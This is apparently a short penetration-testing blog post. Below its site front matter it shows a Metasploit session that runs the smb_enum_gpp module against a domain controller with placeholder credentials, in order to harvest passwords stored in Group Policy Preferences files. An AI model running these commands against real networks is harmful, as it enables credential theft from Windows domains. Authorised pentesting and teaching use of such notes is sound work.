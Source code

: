 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - metasploit gpp"
date:   2019-07-07 16:09:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
  - Active Directory Hacking
tags:
  - Metasploit
  - GPP
---
```

<pre>
msf > use auxiliary/scanner/smb/smb_enum_gpp 
msf auxiliary(smb_enum_gpp) > set SMBUSER test
SMBUSER => test
msf auxiliary(smb_enum_gpp) > set SMBPASS test123
SMBPASS => test123
msf auxiliary(smb_enum_gpp) > set SMBDOMAIN test_domain
SMBDOMAIN => test_domain
msf auxiliary(smb_enum_gpp) > set RHOSTS domain_controller_ip
RHOSTS => domain_controller_ip
msf auxiliary(smb_enum_gpp) > run
</pre>
